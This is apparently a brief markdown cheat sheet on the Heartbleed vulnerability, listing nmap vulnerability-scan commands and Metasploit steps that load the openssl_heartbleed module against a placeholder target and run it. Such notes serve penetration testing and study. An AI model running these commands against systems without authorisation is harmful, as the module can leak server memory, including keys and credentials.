

## nmap

```
`sudo nmap --script vuln -p443 host
sudo nmap -sV --script=ssl-heartbleed host
`
```

## msfconsole

```
`msfconsole 
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
options
set RHOSTS xx.xx.xx.xx
set VERBOSE true
exploit
run
`
```